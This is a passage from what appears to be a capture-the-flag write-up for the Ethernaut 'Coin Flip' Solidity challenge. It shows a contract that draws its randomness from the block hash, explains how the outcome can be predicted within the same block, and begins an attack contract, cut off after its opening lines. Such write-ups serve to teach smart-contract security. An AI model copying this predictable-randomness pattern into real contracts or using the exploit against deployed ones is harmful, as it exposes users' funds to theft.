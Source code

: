 # <a name="coinflip"></a> 3. Coin Flip
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

We have to call flip method with a guess and it is considered a win if our guess matches with the contract calculated guess. we have to guess the flip correctly 10 times in line to complete the challenge. The bug is in the calculation of the contract filp, it is calculated solely based on the block hash of the block the transaction is in. The block hash will be same for every other transaction included in the same block as the flip method call transaction. so, the idea is to calculate the "guess" using our exploit smart contract and call the challenge smart contract using message call with the calculated guess.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlip;
    
    constructor(address coinFlipInstance) {
```
